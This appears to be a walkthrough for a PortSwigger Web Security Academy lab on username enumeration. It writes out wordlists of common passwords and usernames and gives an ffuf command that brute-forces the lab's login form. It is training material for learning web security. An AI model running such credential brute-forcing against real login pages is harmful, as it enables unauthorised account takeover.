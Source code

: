 https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-different-responses

first set the passwords word list:
```sh
echo "123456
password
12345678
qwerty
123456789
12345
1234
111111
1234567
dragon
123123
baseball
abc123
football
monkey
letmein
shadow
master
666666
qwertyuiop
123321
mustang
1234567890
michael
654321
superman
1qaz2wsx
7777777
121212
000000
qazwsx
123qwe
killer
trustno1
jordan
jennifer
zxcvbnm
asdfgh
hunter
buster
soccer
harley
batman
andrew
tigger
sunshine
iloveyou
2000
charlie
robert
thomas
hockey
ranger
daniel
starwars
klaster
112233
george
computer
michelle
jessica
pepper
1111
zxcvbn
555555
11111111
131313
freedom
777777
pass
maggie
159753
aaaaaa
ginger
princess
joshua
cheese
amanda
summer
love
ashley
nicole
chelsea
biteme
matthew
access
yankees
987654321
dallas
austin
thunder
taylor
matrix
mobilemail
mom
monitor
monitoring
montana
moon
moscow
" >./password-list.txt
```

```sh
echo "carlos
root
admin
test
guest
info
adm
mysql
user
administrator
oracle
ftp
pi
puppet
ansible
ec2-user
vagrant
azureuser
academico
acceso
access
accounting
accounts
acid
activestat
ad
adam
adkit
admin
administracion
administrador
administrator
administrators
admins
ads
adserver
adsl
ae
af
affiliate
affiliates
afiliados
ag
agenda
agent
ai
aix
ajax
ak
akamai
al
alabama
alaska
albuquerque
alerts
alpha
alterwind
am
amarillo
americas
an
anaheim
analyzer
announce
announcements
antivirus
ao
ap
apache
apollo
app
app01
app1
apple
application
applications
apps
appserver
aq
ar
archie
arcsight
argentina
arizona
arkansas
arlington
as
as400
asia
asterix
at
athena
atlanta
atlas
att
au
auction
austin
auth
auto
autodiscover" >./username-list.txt
```
Then use it for fuzzing, the number of threads, the number after the `-t` flag, may vary from your computer, internet, processor
```sh
ffuf -u https://0a9100d40428216081cce83600c60098.web-security-academy.net/login -X POST -d "username=W1&password=W2" -w username-list.txt:W1 -w password-list.txt:W2 -ac -c -t 200
```
In this line fuff is detecting automatically a common pattern with the flag `-ac` and the username that start to appear, probably es the correct one, just wait for some clear difference between the others request